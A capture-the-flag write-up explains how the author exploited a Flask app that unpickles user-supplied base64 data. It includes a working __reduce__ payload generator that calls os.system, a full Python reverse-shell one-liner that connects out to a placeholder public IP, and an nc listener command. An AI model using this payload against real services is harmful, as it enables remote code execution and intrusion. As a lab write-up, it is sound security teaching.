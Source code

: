 ```yaml
---
title: "Pickle Postcards (web easy)"
date: 2023-03-17T17:03:49-08:00
tags: ["pickle", "reverse shell", "python", "web"]
---
```


### Basic python picle challenge
#### S2G web Pickle Postcards

Exploiting pythons \__reduce__ to create a payload that when loaded on the server gives us a reverse shell.
 <!--more-->

This was one of the more interesting challenges of the S2G web CTF 2023, mainly because I hadn't solved a pickle challenge during a ctf before, but this time my teammate managed to do it. This writeup will explain the practical ways of approaching this fairly straight forward challenge. If you are looking for more detailed explanations as well I would recommend finding a different writeup, or using this alongside the python documentation and other material. 

{{%attachments title="Related files" /%}}

We were given the source code of the application (above), with the interesting file being app.py. Opening up the website it looks like this:

![website](./images/website.png "website")

It is clearly a pickle challenge, so lets look at what the code does. The most interresting snippets in app.py are:

```py
@app.route('/', methods=['GET', 'POST'])
def index():
  data = str(request.args.get("data", ""))

  # Load/Deserialize postcard data
  if request.method == "GET" and data:
    
    deserialized_postcard = deserialize(data)
```

and

```py
def deserialize(serialized):
postcard = pickle.loads(base64.b64decode(serialized))
return postcard
```

A pickle challenge really can't get much more straight forward. It is more common to use pickle.loads for interpreting cookies, but this will simply take whatever data we send to the "/" endpoint and execute pickle.loads on it after base64 decoding it.

Pickle challenges relies on the \__reduce__ method on a python object. The following code is a good template for creating our own pickle payload:

```py
import pickle
import os
from base64 import b64encode, b64decode

COMMAND = '''
<insert command here>
'''

class Evil(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
print(evil_token)

#server runs pickle.loads(base64,b64decode(evil_token)) 
```

Sending the result of this script to the server will give us RCE of whatever we insert as the command. We could theoretically have it read flag.txt and return an object that could be printed on the website, but we can also just create a reverse shell if we have a public IP available. A great tool for creating reverse shells is https://www.revshells.com/. It is safest to use a python reverse shell as we know for sure that the webserver is running python.

The reverse shell generator gives us the command `export RHOST="<insert public ip here>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`. Placing this in the COMMAND field above and running the pickle payload generator gives the following output:

![payload](./images/payload.png "payload")

Sending this to the server shoudl make it run the provided command, so all we have to do now is listen on the correct port on the machine with the public IP and send the payload to the server through the "Enter saved postcard data" field on the website.
We listen with `nc -lvp <port>` and get a shell on the webserver. Then all that's left is reading the flag.

![getting shell](./images/flag.png "getting shell")
